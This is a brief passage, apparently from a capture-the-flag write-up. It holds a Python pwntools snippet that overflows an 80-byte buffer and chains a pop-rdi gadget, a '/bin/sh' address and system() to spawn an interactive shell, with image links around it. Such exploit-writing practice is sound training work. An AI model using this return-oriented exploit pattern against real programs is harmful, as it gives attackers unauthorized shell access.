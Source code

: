 ````python
print hex(binsh)
print hex(poprdi)
  
exploit = "A" * (80 - len(p64(sysAddr)))
exploit += p64(poprdi)
exploit += p64(binsh)
exploit += p64(sysAddr)
 
p.send(exploit)
p.interactive()
````



![image](https://user-images.githubusercontent.com/59410565/117537408-9daf4300-b03b-11eb-808d-e21a6001ea09.png)

